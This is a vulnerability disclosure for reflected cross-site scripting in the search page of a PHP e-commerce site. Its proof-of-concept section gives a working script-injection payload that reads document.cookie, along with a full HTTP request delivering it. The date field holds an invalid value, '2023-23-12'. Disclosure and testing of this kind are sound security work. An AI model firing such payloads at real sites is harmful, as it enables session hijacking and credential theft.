 # E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Exploit Title:** E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-site-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2019/10/E-COMMERCE_SITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
E-commerce Site 1.0 allows Reflected Cross-site Scripting via parameter 'keyword' in "/ecommerce/search.php".
E-commerce Site is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. 
This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Search for Product: "http://localhost/ecommerce/search.php"
+ Use this payload: `<video/src=x onerror=alert(document.cookie)>`
+ Fill the payload and Enter.
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'keyword' parameter:
```
POST /ecommerce/search.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 55
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ml92pvb86qoqm8rjs4vhgk86v7
Referer: http://localhost/ecommerce/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

keyword=%3Cvideo/src=x%20onerror=alert(document.cookie)%3E%20
```

+ Example payload:
```
<video/src=x onerror=alert(document.cookie)>
```
![1-1](https://github.com/h4md153v63n/CVEs/assets/5091265/85674d4d-34f4-4dc3-95b4-b010401dd04e)
![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/5225831f-4eef-41df-bd4e-c9e41901dce0)

